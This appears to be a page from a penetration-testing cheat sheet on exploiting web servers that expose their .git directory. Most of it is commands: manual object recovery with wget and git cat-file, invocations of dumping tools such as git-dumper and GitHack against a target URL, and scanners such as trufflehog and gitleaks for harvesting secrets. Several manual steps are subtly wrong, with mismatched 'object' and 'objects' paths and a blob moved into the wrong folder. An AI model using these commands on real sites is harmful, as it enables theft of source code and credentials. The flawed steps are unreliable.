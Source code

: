 # Git

## Summary

* [Methodology](#methodology)
    * [Recovering file contents from .git/logs/HEAD](#recovering-file-contents-from-gitlogshead)
    * [Recovering file contents from .git/index](#recovering-file-contents-from-gitindex)
* [Tools](#tools)
    * [Automatic recovery](#automatic-recovery)
        * [git-dumper.py](#git-dumperpy)
        * [diggit.py](#diggitpy)
        * [GoGitDumper](#gogitdumper)
        * [rip-git](#rip-git)
        * [GitHack](#githack)
        * [GitTools](#gittools)
    * [Harvesting secrets](#harvesting-secrets)
        * [noseyparker](#noseyparker)
        * [trufflehog](#trufflehog)
        * [Yar](#yar)
        * [Gitrob](#gitrob)
        * [Gitleaks](#gitleaks)
* [References](#references)

## Methodology

The following examples will create either a copy of the .git or a copy of the current commit.

Check for the following files, if they exist you can extract the .git folder.

* `.git/config`
* `.git/HEAD`
* `.git/logs/HEAD`

### Recovering file contents from .git/logs/HEAD

* Check for 403 Forbidden or directory listing to find the `/.git/` directory
* Git saves all information in `.git/logs/HEAD` (try lowercase `head` too)

  ```powershell
  0000000000000000000000000000000000000000 15ca375e54f056a576905b41a417b413c57df6eb root <root@dfc2eabdf236.(none)> 1455532500 +0000        clone: from https://github.com/fermayo/hello-world-lamp.git
  15ca375e54f056a576905b41a417b413c57df6eb 26e35470d38c4d6815bc4426a862d5399f04865c Michael <michael@easyctf.com> 1489390329 +0000        commit: Initial.
  26e35470d38c4d6815bc4426a862d5399f04865c 6b4131bb3b84e9446218359414d636bda782d097 Michael <michael@easyctf.com> 1489390330 +0000        commit: Whoops! Remove flag.
  6b4131bb3b84e9446218359414d636bda782d097 a48ee6d6ca840b9130fbaa73bbf55e9e730e4cfd Michael <michael@easyctf.com> 1489390332 +0000        commit: Prevent directory listing.
  ```

* Access the commit using the hash

  ```powershell
  # create an empty .git repository
  git init test
  cd test/.git

  # download the file
  wget http://web.site/.git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c

  # first byte for subdirectory, remaining bytes for filename
  mkdir .git/object/26
  mv e35470d38c4d6815bc4426a862d5399f04865c .git/objects/26/

  # display the file
  git cat-file -p 26e35470d38c4d6815bc4426a862d5399f04865c
      tree 323240a3983045cdc0dec2e88c1358e7998f2e39
      parent 15ca375e54f056a576905b41a417b413c57df6eb
      author Michael <michael@easyctf.com> 1489390329 +0000
      committer Michael <michael@easyctf.com> 1489390329 +0000
      Initial.
  ```

* Access the tree 323240a3983045cdc0dec2e88c1358e7998f2e39

    ```powershell
    wget http://web.site/.git/objects/32/3240a3983045cdc0dec2e88c1358e7998f2e39
    mkdir .git/object/32
    mv 3240a3983045cdc0dec2e88c1358e7998f2e39 .git/objects/32/

    git cat-file -p 323240a3983045cdc0dec2e88c1358e7998f2e39
        040000 tree bd083286051cd869ee6485a3046b9935fbd127c0        css
        100644 blob cb6139863967a752f3402b3975e97a84d152fd8f        flag.txt
        040000 tree 14032aabd85b43a058cfc7025dd4fa9dd325ea97        fonts
        100644 blob a7f8a24096d81887483b5f0fa21251a7eefd0db1        index.html
        040000 tree 5df8b56e2ffd07b050d6b6913c72aec44c8f39d8        js
    ```

* Read the data (flag.txt)

  ```powershell
  wget http://web.site/.git/objects/cb/6139863967a752f3402b3975e97a84d152fd8f
  mkdir .git/object/cb
  mv 6139863967a752f3402b3975e97a84d152fd8f .git/objects/32/
  git cat-file -p cb6139863967a752f3402b3975e97a84d152fd8f
  ```

### Recovering file contents from .git/index

Use the git index file parser <https://pypi.python.org/pypi/gin> (python3).

```powershell
pip3 install gin
gin ~/git-repo/.git/index
```

Recover name and sha1 hash of every file listed in the index, and use the same process above to recover the file.

```powershell
$ gin .git/index | egrep -e "name|sha1"
name = AWS Amazon Bucket S3/README.md
sha1 = 862a3e58d138d6809405aa062249487bee074b98

name = CRLF injection/README.md
sha1 = d7ef4d77741c38b6d3806e0c6a57bf1090eec141
```

## Tools

### Automatic recovery

#### git-dumper.py

* [arthaud/git-dumper](https://github.com/arthaud/git-dumper)

```powershell
pip install -r requirements.txt
./git-dumper.py http://web.site/.git ~/website
```

#### diggit.py

* [bl4de/security-tools/diggit](https://github.com/bl4de/security-tools/)

```powershell
./diggit.py -u remote_git_repo -t temp_folder -o object_hash [-r=True]
./diggit.py -u http://web.site -t /path/to/temp/folder/ -o d60fbeed6db32865a1f01bb9e485755f085f51c1
```

`-u` is remote path, where .git folder exists  
`-t` is path to local folder with dummy Git repository and where blob content (files) are saved with their real names (`cd /path/to/temp/folder && git init`)  
`-o` is a hash of particular Git object to download

#### GoGitDumper

* [c-sto/gogitdumper](https://github.com/c-sto/gogitdumper)

```powershell
go get github.com/c-sto/gogitdumper
gogitdumper -u http://web.site/.git/ -o yourdecideddir/.git/
git log
git checkout
```

#### rip-git

* [kost/dvcs-ripper](https://github.com/kost/dvcs-ripper)

```powershell
perl rip-git.pl -v -u "http://web.site/.git/"

git cat-file -p 07603070376d63d911f608120eb4b5489b507692
tree 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
parent 15ca375e54f056a576905b41a417b413c57df6eb
author Michael <michael@easyctf.com> 1489389105 +0000
committer Michael <michael@easyctf.com> 1489389105 +0000

git cat-file -p 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
```

#### GitHack

* [lijiejie/GitHack](https://github.com/lijiejie/GitHack)

```powershell
GitHack.py http://web.site/.git/
```

#### GitTools

* [internetwache/GitTools](https://github.com/internetwache/GitTools)

```powershell
./gitdumper.sh http://target.tld/.git/ /tmp/destdir
git checkout -- .
```

### Harvesting secrets

#### noseyparker

> [praetorian-inc/noseyparker](https://github.com/praetorian-inc/noseyparker) - Nosey Parker is a command-line tool that finds secrets and sensitive information in textual data and Git history.

```ps1
git clone https://github.com/trufflesecurity/test_keys
docker run -v "$PWD":/scan ghcr.io/praetorian-inc/noseyparker:latest scan --datastore datastore.np ./test_keys/
docker run -v "$PWD":/scan ghcr.io/praetorian-inc/noseyparker:latest report --color always
noseyparker scan --datastore np.noseyparker --git-url https://github.com/praetorian-inc/noseyparker
noseyparker scan --datastore np.noseyparker --github-user octocat
```

#### trufflehog

> Searches through git repositories for high entropy strings and secrets, digging deep into commit history.

```powershell
pip install truffleHog
truffleHog --regex --entropy=False https://github.com/trufflesecurity/trufflehog.git
```

#### Yar

> Searches through users/organizations git repositories for secrets either by regex, entropy or both. Inspired by the infamous truffleHog.

```powershell
go get github.com/nielsing/yar # https://github.com/nielsing/yar
yar -o orgname --both
```

#### Gitrob

> Gitrob is a tool to help find potentially sensitive files pushed to public repositories on Github. Gitrob will clone repositories belonging to a user or organization down to a configurable depth and iterate through the commit history and flag files that match signatures for potentially sensitive files.

```powershell
go get github.com/michenriksen/gitrob # https://github.com/michenriksen/gitrob
export GITROB_ACCESS_TOKEN=deadbeefdeadbeefdeadbeefdeadbeefdeadbeef
gitrob [options] target [target2] ... [targetN]
```

#### Gitleaks

> Gitleaks provides a way for you to find unencrypted secrets and other unwanted data types in git source code repositories.

* Run gitleaks against a public repository

    ```powershell
    docker run --rm --name=gitleaks zricethezav/gitleaks -v -r https://github.com/zricethezav/gitleaks.git
    ```

* Run gitleaks against a local repository already cloned into /tmp/

    ```powershell
    docker run --rm --name=gitleaks -v /tmp/:/code/  zricethezav/gitleaks -v --repo-path=/code/gitleaks
    ```

* Run gitleaks against a specific Github Pull request

    ```powershell
    docker run --rm --name=gitleaks -e GITHUB_TOKEN={your token} zricethezav/gitleaks --github-pr=https://github.com/owner/repo/pull/9000
    ```

## References

* [Gitrob: Now in Go - Michael Henriksen - January 24, 2024](https://michenriksen.com/blog/gitrob-now-in-go/)
